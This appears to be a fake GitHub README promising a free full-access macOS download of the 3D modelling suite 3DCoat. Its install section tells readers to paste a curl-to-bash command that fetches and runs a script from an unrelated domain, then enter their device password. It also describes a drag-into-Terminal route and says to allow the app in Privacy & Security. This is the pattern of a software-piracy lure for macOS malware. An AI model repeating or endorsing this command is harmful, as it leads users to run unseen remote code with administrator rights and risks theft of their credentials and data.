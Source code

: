 <p align="center">
  <img src="https://i.ibb.co/qMMphgkn/1615026129-3dcoat.png" alt="3DCoat macOS Banner" />
</p>

<h1 align="center">3DCoat for macOS</h1>

<p align="center">
  🧱 Model, sculpt, paint, retopo, and render 3D assets in a full-featured, production-ready environment.  
  <br><br>
  ✅ Apple Silicon & Intel support  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/192" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%203DCOAT%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download 3DCoat for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/B8fx9w5/1670167952-1.webp" alt="3DCoat macOS UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is 3DCoat?

**3DCoat for macOS** is a professional-grade 3D creation tool that brings together sculpting, modeling, UV unwrapping, texturing, and rendering into a single powerful workflow. Designed for artists building detailed models, game assets, or 3D concept art, 3DCoat is known for its voxel-based sculpting engine, intuitive retopology tools, and industry-standard PBR material support.

It supports seamless integration with external tools and exports clean topology for real-time engines. Ideal for concept sculptors, game developers, and VFX professionals — with native performance on **Intel & Apple Silicon (M1/M2/M3)** Macs.

---

## ✅ Why Choose 3DCoat?

- 🧱 **Voxel & Surface Sculpting Modes**  
- 🎨 **Advanced PBR Texture Painting Tools**  
- 📐 **Auto and Manual Retopology Systems**  
- 🔄 **Live PBR Preview & Layer System**  
- 🎞️ **Built-in Render Room for Scene Presentation**  
- 🧩 **Smart Materials & Procedural Textures**  
- 🔁 **Easy Export for Unity, Unreal, Blender**  
- 🍎 **Optimized for Modern Macs and macOS Versions**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/DgtdxVGz/1670167953-3.webp" alt="3DCoat Sculpting Interface Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/sJDh1wWQ/1670167954-2.webp" alt="3DCoat PBR Texturing Preview" />
</p>

---

## 🚀 Key Features

- Sculpt in voxels or surface mode  
- Paint depth, diffuse, specular & gloss layers  
- UV unwrapping with auto or manual tools  
- Bake normals and displacement maps  
- Retopo tools with snapping and symmetry  
- Support for smart materials and curvature masking  
- Export OBJ, FBX, LWO, and more  
- 100% local operation with GPU acceleration

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow 3DCoat under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-3D+Modeling+Suite-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Sculpt+Paint+Retopo+Render-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ 3DCoat – The Artist’s Full Pipeline Tool

Thanks for using **3DCoat for macOS**.  
All-in-one 3D sculpting, texturing, and export suite.

---

## 🧭 Usage Context

3DCoat is intended for use in local design, modeling, and asset preparation pipelines.  
No cloud access or third-party sync required.  

Tailored for offline workstations in game dev, film, and VFX.  
Not affiliated with Apple or other 3D software vendors.

---

## 🔍 Tags

```text
3dcoat for mac download, 3dcoat sculpting modeling macos, voxel sculpt mac app apple silicon, retopology and uv tools 3dcoat mac, bake pbr materials 3dcoat mac m1, paint smart textures mac 3dcoat pro, 3dcoat export for unity unreal macos, offline 3d modeling suite macbook pro, fbx obj texture bake mac 3dcoat tool, surface sculpt and render mac 3dcoat, real time pbr preview mac 3dcoat app, 3dcoat mac m2 optimized sculpting, uv unwrap and texture export macos, all-in-one 3d artist tool mac download, game asset creation software mac 3dcoat
